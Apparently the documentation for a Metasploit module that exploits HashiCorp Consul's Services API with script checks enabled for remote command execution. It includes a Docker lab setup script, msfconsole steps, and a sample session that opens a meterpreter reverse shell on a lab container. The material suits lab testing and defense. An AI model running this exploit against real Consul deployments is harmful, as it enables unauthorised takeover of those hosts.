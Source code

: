 ## Vulnerable Application

[HashiCorp Consul](https://www.consul.io/) with `-enable-script-checks` configuration flag set to true, or running version 0.9.0 or earlier, with Consul API available on an interface that can be accessed over the network.

### Description

This module exploits Hashicorp Consul's Services API to gain remote command execution on a Consul node.

The exposure of the Services API depends on the `enable_script_checks` option. This option is opt-in for Consul nodes operators.

#### References

* Consul Services API - https://www.consul.io/api/agent/service.html
* Inspiration from Garfield PoC - https://github.com/torque59/Garfield
* Protecting Consul from RCE Risk in Specific Configurations - [https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations](https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations)

### Test setup

The following bash script can be used to setup a testing environment with Docker:

```
#!/bin/sh

echo "[+] Launching consul instances..."
BOOTSTRAP_ID=`docker run -p8301:8301 -d --name=consul_bootstrap_server consul:1.0.7 agent -server -client=0.0.0.0 -bootstrap -data-dir /tmp/consul`
sleep 2
BOOTSTRAP_IP=`docker inspect --format '{{ .NetworkSettings.IPAddress }}' $BOOTSTRAP_ID`
docker run -d --name=consul_client_1 -e 'CONSUL_LOCAL_CONFIG={"leave_on_terminate": true, "enable_script_checks":true, "disable_remote_exec":false}' consul:1.0.7 agent -ui -client=0.0.0.0 -retry-join=$BOOTSTRAP_IP
echo "[+] Checking members..."
docker exec -t consul_bootstrap_server consul members -http-addr="$BOOTSTRAP_IP:8500"
```

You should observe something similar to the excerpt below when running the script:

```
[+] Launching consul instances...
138b09eff12867fcc436b8f5d6366c5aebf3be54864789a675e133a865d436bf
[+] Checking members...
Node          Address          Status  Type    Build  Protocol  DC   Segment
36e14072dec5  172.17.0.1:8301  alive   server  1.0.7  2         dc1  <all>
138b09eff128  172.17.0.2:8301  alive   client  1.0.7  2         dc1  <default>
```

The following bash script can be used to stop and destroy **all your consul containers** (so be careful if you use consul containers for other things at the same time):

```
#!/bin/sh
for h in `sudo docker ps -a | grep consul | cut -d' ' -f1`; do sudo docker stop $h && sudo docker rm $h; done
```

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Launch a Consul cluster with the provided bash script
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/consul_service_exec`
  4. Do: `set RHOST 172.17.0.2`
  5. Do: `set RPORT 8500`
  6. Do: `check`. The target should appear vulnerable.
  7. Do: `set payload` with the payload of your choosing.
  8. Do: `set LHOST 172.17.42.1` (docker0 gateway IP)
  9. Do: `run`
  10. You should get a shell.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Docker [consul](https://hub.docker.com/_/consul/) container target:

```
msf5 > use exploit/multi/misc/consul_service_exec
msf5 exploit(multi/misc/consul_service_exec) > set RHOSTS 172.17.0.4
RHOSTS => 172.17.0.4
msf5 exploit(multi/misc/consul_service_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/misc/consul_service_exec) > set LHOST 172.17.42.1
LHOST => 172.17.42.1
msf5 exploit(multi/misc/consul_service_exec) > check
[+] 172.17.0.4:8500 The target is vulnerable.
msf5 exploit(multi/misc/consul_rexec_exec) > run

[*] Started reverse TCP handler on 172.17.42.1:4444
[*] Creating service 'BBBDX'
[*] Service 'BBBDX' successfully created.
[*] Waiting for service 'BBBDX' script to trigger
[*] Sending stage (861480 bytes) to 172.17.0.4
[*] Removing service 'BBBDX'
[*] Command Stager progress - 115.73% done (883/763 bytes)

meterpreter > sysinfo
Computer     : 172.17.0.4
OS           :  (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...
[*] 172.17.0.4 - Meterpreter session 1 closed.  Reason: User exit
```
